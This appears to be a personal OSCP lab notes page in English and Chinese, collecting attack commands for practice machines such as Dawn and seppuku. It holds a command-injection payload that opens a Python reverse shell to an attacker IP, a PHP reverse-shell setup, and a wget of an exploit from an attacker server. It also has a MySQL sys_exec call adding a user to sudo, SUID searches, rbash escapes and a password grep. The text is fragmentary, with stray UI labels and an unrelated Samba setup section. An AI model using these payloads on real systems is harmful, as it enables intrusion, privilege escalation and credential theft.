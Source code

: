 find / -type f -user root -perm -4000 2>/dev/null

```Bash
find / -perm -u=s -type f 2>/dev/null
find / -type f -user root -perm -4000 2>/dev/null 
```

  

if get a rbash, can use

```JavaScript
python -c 'import pty;pty.spawn("/bin/bash")'
```

```Bash
python3 -c "import pty;pty.spawn('/bin/bash')"

```

```Bash
ssh seppuku@192.168.226.90 -t "bash --noprofile"
```

or after into rbash

```Bash
bash
sh
```

  

```JavaScript
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/tmp
export TERM=xterm-256color

Ctrl + Z [Background Process]

alias ll='ls -lsaht --color=auto'

stty raw -echo ; fg ; reset
stty columns 200 rows 200

getcatp -r 2>/dev/null

```

```JavaScript
export TERM=xterm-256color
alias ll='ls -lsaht --color=auto'
```

  

  

  

  

3 aug oscp Dawn

```Plain
nmap find it have smb -> smbclinet -L 
got: ITDEPT          Disk      PLEASE DO NOT REMOVE THIS SHARE. IN CASE YOU ARE NOT AUTHORIZED TO USE THIS SYSTEM LEAVE IMMEADIATELY. 
hint: we go ITDEPT direction
smbclient \\\\ip\\IDDEPT ,  
in smb can write


```

Add the following lines to the file:

```Plain
[share]
path = /path/to/shared/folder
available = yes
valid users = your_username
read only = no
browseable = yes
public = yes
writable = yes
```

Save the file and exit. Then, restart the Samba service:

```Plain
sudo service smbd restart
```

Now you should be able to access the shared folder from another machine on the network using the following address:

```Plain
\\\\your_ubuntu_machine_ip_address\\share
```

Replace `your_ubuntu_machine_ip_address` with the IP address of your Ubuntu machine.

ka

[[R shell]]

127.0.0.1 &&python -c 'import os,socket,sys,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.62.156",443));[os.dup2(s.fileno(),fd)for fd in (0,1,2)];pty.spawn("/bin/bash");'  

find / -uid 0 -perm -4000 -type f 2>/dev/null

  

  

wget [http://192.168.1.113:8000/9545.c](http://192.168.1.106:8000/9545.c)

  

  

ssh -oHostKeyAlgorithms=ssh-rsa,ssh-dss user@192.168.64.2

  

echo os.system("/bin/bash")

  

  

find / -perm -u=s -type f 2>/dev/null

find / -type f -user root -perm -4000 2>/dev/null

  

mysql -uroot -p

sudo /bin/bash

  

# a|--append #\#把用户追加到某些组中，仅与-G选项一起使用

# G|--groups #\#把用户追加到某些组中，仅与-a选项一起使用

select sys_exec('usermod -a -G sudo john');

  

  

[[LinEnum.sh]]

  

  

  

use python get a better shell

  

```Bash
python3 -c "import pty;pty.spawn('/bin/bash')"
```

  

  

shell.php localed in `1. sudo cp /usr/share/webshells/php/php-reverse-shell.php ./shell.php`

  

`grep -n "127.0.0.1" shell.php` //find the number of line which have 127.0.0.1 in file shell.php

1. `sed -i '49s/127.0.0.1/192.168.45.220/' shell.php` //

`**-i**` flag for in-place editing , 49s s:substitution

  

`1. sed -n '49,50p' shell.php` // -n print number of line, 50p ◦ `**p**`: The command to print the specified lines.  
•

grep -arin -o -E '(\w+\W+){0,5}password(\W+\w+){0,5}' .

  

  

  
  

```Bash
python3 -m http.server
```

1. 在攻击机上使用screen/tmux：  
    bash

Run

Open Folder

1

screen -S attack_shell

这一步的作用是：

- 创建一个新的screen会话，命名为"attack_shell"
- 提供一个持久的终端环境，即使SSH连接断开也不会丢失会话
- 允许随时分离和重新连接会话

1. 在目标机器上获取并升级shell：  
    bash

Run

Open Folder

1

2

3

python -c 'import pty; pty.spawn("/bin/bash")'

export TERM = xterm

stty raw -echo ; fg

这些命令的作用是：

- Python的pty模块创建一个伪终端，提供完整的终端功能
- 设置终端类型为xterm，确保正确的终端特性
- stty raw -echo关闭本地回显，fg将shell带到前台
- 这样可以获得一个完整的交互式shell

1. 配置shell环境：  
    bash

Run

Open Folder

1

2

export SHELL = bash

stty rows 38 columns 116

这一步的作用是：

- 设置默认shell为bash
- 配置终端窗口大小，确保正确的显示格式
- rows和columns的值可以根据实际终端大小调整  
    这整个过程的好处：

1. 获得完整的终端功能（tab补全、历史记录等）
2. 支持所有shell快捷键（Ctrl+C, Ctrl+Z等）
3. 即使网络不稳定也能保持会话
4. 提供更好的命令行编辑能力
5. 支持诸如vim等全屏应用程序  
    注意事项：

- 确保目标系统安装了Python
- screen/tmux命令需要在攻击机上执行
- 其他命令在目标机器的shell中执行
- 终端大小可以根据需要调整

  

  

[[Notion/OSCP 2/reverse shell]]

[[Azure Admin Group]]

[[rbash]]

[[gtfobins]]

[[PATH]]

[[OSCP 2/nmap|nmap]]

[[seppuku]]

[[EvilBox-One]]

[[AD]]

[[python3]]